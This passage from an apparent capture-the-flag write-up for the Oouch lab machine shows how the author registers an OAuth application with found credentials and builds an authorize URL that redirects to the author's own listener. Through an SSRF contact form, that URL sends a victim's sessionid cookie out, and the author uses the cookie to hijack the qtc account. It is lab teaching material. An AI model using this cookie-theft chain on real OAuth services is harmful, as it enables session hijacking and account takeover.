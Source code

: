 There is also a mention about ssh keys on `todo.txt` so this might be a hint that we need to get an ssh key in order to login and read the user flag.

With this in mind we will go and try find this `application` feature that he mentions.

## Creating the application

We run a recursive directory search on `http://authorization.oouch.htb:8000/` and find `/oauth/applications/register`

Visiting this we find a login poppup page that asks for credentials, we use `develop:supermegasecureklarabubu123!` that we found earlier.

![img-9](https://i.ibb.co/dfLX6ZX/entering-creds-for-the-app.png)

After loggging in we are greeted by a page that allows us to create a new application.

It automatically gives us the `client id` and `client secret` so we dont have to worry about those.

I fill out the following details:

![img-10](https://i.ibb.co/ykNZJ3R/app-register.png)


Make sure to add your own ip as the `Redirect Uris`

We note down all the details and put together our own url from which we will try to trigger a connection to our box.

IT ends up being like this:

```bash
http://authorization.oouch.htb:8000/oauth/authorize/?client_id=7QQhqqzMpDxUgOyQvKhf1mT97MZjReuBFejHdQUN&redirect_uri=http://10.10.14.2:4444&grant_type=authorization_code
&client_secret=sJ293VS4FasXqzB92gekNeIFR9ncGYCDadO38geM1hBvaNvay26J9Wsl7is03s8No2Sc1jhTYbzQi4Y6hWdaLBdCdDmWmnyPY4CCSEdorob5NYPDWhGzHGf9IVMmCQP2
```
We setup a listener and and visit this url in the search bar.

We get a connecion back on our listener.

![img-11](https://i.ibb.co/Bqf9spM/listener-to-prove-connection.png)

Now we will try to get the cookies.

We paste this url into the ssrf section on the contact page like before and reset our listener.

We now got a connection on our listener showing us the `sessionid`!

![img-12](https://i.ibb.co/m6Wy08T/listener-to-steal-cookie.png)

We then use a cookie editor to change the `sessionid` to the value that we just got then refresh the page and now we are logged in as `qtc`.

![img-13](https://i.ibb.co/prbLXNV/logon-details-after-cookie.png)

## POST request to get ssh keys
